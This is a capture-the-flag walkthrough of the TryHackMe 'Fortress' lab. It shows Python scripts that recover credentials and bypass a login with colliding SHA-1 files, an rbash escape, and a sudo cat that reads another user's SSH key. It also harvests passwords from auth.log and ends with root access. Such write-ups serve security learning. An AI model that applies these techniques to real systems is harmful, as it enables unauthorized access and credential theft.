fortress
THM: Fortress
Note: As suggested in the room, we need to add to /etc/hosts the following.
10.10.113.98 fortress
10.10.113.98 temple.fortress
Enumeration
Rustscan & Nmap

Port Analysis:
22 - SSH Server
5581 - FTP Server (With Anonymous Login allowed)
5752 - TCP Service (Telnet for details)
7331 - Web Server
Enumerating TCP Service on 5752
The TCP Service asks for credentials.

FTP

We got 2 files.
marked.txt is related to the story and is not mandatory for the CTF
.file is however an intresting file.

It is a python byte-compiled file. It can be uncompiled using uncompyle2
uncompyle2 .file > output.py

By examing the code, its clear that, its the same program that is running on the TCP port 5752
We have the credentials here in Long format & the program takes our input, then converts it to Long before matching for authentication.
We can use python to reverse the process. We will use the function long_to_bytes from the same module Crypto.Util.number
Python Code For Credential Harvesting:
from Crypto.Util.number import long_to_bytes
username = long_to_bytes(232340432076717036154994)
print("Username: " + username.decode("utf-8"))
password = long_to_bytes(10555160959732308261529999676324629831532648692669445488)
print("Password: " + password.decode("utf-8"))
Running the program

It seems we found the credentails for TCP Program running at port 5752. Lets Login.
Enumerating TCP Service on 5752

Now, we found a text: “t3mple_0f_y0ur_51n5”
Website Enumeration

We get a default page at port 7331. I used the string found “t3mple_0f_y0ur_51n5” as directory, but is gave server error/no results.
However, if we add an extention to the string found, we found intresting results.
Adding .php extentsion
t3mple_0f_y0ur_51n5.php

We go to a blank page named chapter-2. However, if we view source we find commented html code.

Next,
Adding .html extentsion
t3mple_0f_y0ur_51n5.html

We land in a login page. However, if we view source we find commented php code.

Examining the above I conclude that the PHP Code is used for authentication purpose and HTML code is used as a Login page using GET Request.
Foothold
SHA-1 Collision
What it’s doing is that , taking two GET parameters user and pass doing a type check also checking it's SHA-1 hash if they are similar which is what we call hash collision and back in 2017 someone discovered a collision in SHA-1 by calculating the hash of two pdf files.

Link to get the pdf files: https://shattered.it/
Note: Since we will be using PDF files as input to a web page login form, we need to make the web request in python as we cannot do the same in a browser.
Python Code for Web Request:
import requests
# Fetching 2 pdf's file which cause SHA-1 collision
pdf1 = requests.get("https://shattered.it/static/shattered-1.pdf")
pdf2 = requests.get("https://shattered.it/static/shattered-2.pdf")
# Assinging pdf's content into the GET parameters
params = {'user': pdf1.content, 'pass': pdf2.content}
r = requests.get("http://temple.fortress:7331/t3mple_0f_y0ur_51n5.php/",params=params)
print(r.text)
We run it

As we are using GET, the entire PDF is sent in URL which exceeds the Limit of 8KB
Note: Maximum capacity of url request is 8 KB while we exceed this limit as combined size of those files is 825 KB
Upon Further research, I found that a certain part of both the PDFs cause this collision. This turns out to be the first 192 octets. I will test the same by cutting the PDF with xxd and matching the fragments as below.
Note: We will download the files and make the operations then host locally.

Just to verify, we can confirm that the default PDFs without any modifications indeed have SHA-1 Collision as we can see the SHA-1 output for both is same. Now, lets truncate it.
xxd -l 192 shattered-1.pdf > 1-pdf.192
xxd -l 192 shattered-2.pdf > 2-pdf.192
-l len | -len len
Stop after writing len octets.
Testing if still the collision occurs.

Indeed, the SHA-1 Collision occurs, Now we can send it to the webserver as the size is reduced.
We change the python requester.
import requests
# Fetching 2 pdf's file which cause SHA-1 collision
pdf1 = requests.get("https://localhost/1-pdf.192")
pdf2 = requests.get("https://localhost/2-pdf.192")
# Assinging pdf's content into the GET parameters
params = {'user': pdf1.content, 'pass': pdf2.content}
r = requests.get("http://temple.fortress:7331/t3mple_0f_y0ur_51n5.php/",params=params)
print(r.text)
Running

We again got an error stating the username and password cannot be same. We need to expand the PDFs more.
This is the first error of the Commented PHP Code
Lets change the PDF files to include more bytes so that they are actually different, so that we will evade the first check.
xxd -l 320 shattered-1.pdf | xxd -r > 1-pdf.320
xxd -l 320 shattered-2.pdf | xxd -r > 2-pdf.320
-r | -revert
Reverse operation: convert (or patch) hexdump into binary. If not writing
to stdout, xxd writes into its output file without truncating it.
Use the combination -r -p to read plain hexadecimal dumps without line number
information and without a particular column layout.
Additional Whitespace and line-breaks are allowed anywhere.
Note: We pipe the data after converting to binary into our new input files. (Else it shows Invalid Password: Without xxd -r)
Change in Python Web Request Code:
import requests
# Fetching 2 pdf's file which cause SHA-1 collision
pdf1 = requests.get("http://localhost/1-pdf.320")
pdf2 = requests.get("http://localhost/2-pdf.320")
# Assinging pdf's content into the GET parameters
params = {'user': pdf1.content, 'pass': pdf2.content}
r = requests.get("http://temple.fortress:7331/t3mple_0f_y0ur_51n5.php/",params=params)
print(r.text)
Running

Now, we got the second error of the Commented PHP Code.
Its due to the username & password length. According to the Commented PHP Code, our username should be >= 500 charecters and password should be >= 600 charecters.
We modify our PDF inputs.
xxd -l 700 shattered-1.pdf | xxd -r > 1-pdf.700
xxd -l 700 shattered-2.pdf | xxd -r > 2-pdf.700
We change the python code accordingly to use the above files as input.
Running

Now, we got the third error of the Commented PHP Code.
Its regarding badchars in the PDF.
Finally, I searched for SHA-1 Collision online and found another set of files which solve the above issues.
https://sha-mbles.github.io/
From here I downloaded messageA and messageB
Analyze the files for length and SHA-1 collision.

As we can see, the size satisfies our conditions of >=500 & >=600 respectively and the files indeed have SHA-1 Collision.
Final Python Code:
import requests
# Fetching 2 pdf's file which cause SHA-1 collision
pdf1 = requests.get("http://localhost/messageA")
pdf2 = requests.get("http://localhost/messageB")
# Assinging pdf's content into the GET parameters
params = {'user': pdf1.content, 'pass': pdf2.content}
r = requests.get("http://temple.fortress:7331/t3mple_0f_y0ur_51n5.php/",params=params)
print(r.text)
Running

Finally, we are able to login and get the string “m0td_f0r_j4x0n.txt”
We use the link with our URL: http://fortress:7331/m0td_f0r_j4x0n.txt

We found the Private Key for the User: h4rdy
Lets try to Login with SSH
Copy the private key to a file id_h4rdy & change its permission to chmod 600 id_h4rdy
Then Logon to SSH using ssh -i id_h4rdy h4rdy@fortress

Privilege Escalation
We successfully logged on the machine, however I find that we are unable to run any command. Later checking i found we are runnning restricted bash.

We confirm that we are running rbash & the PATH & SHELL variables are READ ONLY
Solution
Log out of SSH and Login again using a pseudo terminal option in SSH Login.
Using -t which enables "pseudo-tty allocation"
Format:
ssh -i id_h4rdy h4rdy@fortress -t bash '--noprofile'

With the Pseudo Terminal, we are able to change the SHELL & PATH variables. We set them as above. Now we have a fully functional terminal.
Lateral Movement

I checked for Sudo access for h4rdy. He was allowed to run /bin/cat as user j4x0n without any password. Thus I used the follwing command to read his private ssh key.
sudo -u j4x0n /bin/cat /home/j4x0n/.ssh/id_rsa
I reapeat the same steps on my Local Kali machine to Login as user j4x0n
Copy the private key to a file id_j4x0n & change its permission to chmod 600 id_j4x0n
Then Logon to SSH using ssh -i id_j4x0n j4x0n@fortress

I successfully, logged in as user j4x0n. I notice that the user is member of group adm
This group has read access to auth logs. So I enumerate it.
ls -l /var/log/auth.log

I will view the file with more & search for Login credentials.
I found veekay's password

I found h4rdy's password

Finally
I found j4x0n's password

Lets check sudo for j4x0n. It needed password. Once I provided password, as we can see j4x0n has sudo access for all commands.So i run a sudo bash to become root.

Thanks!!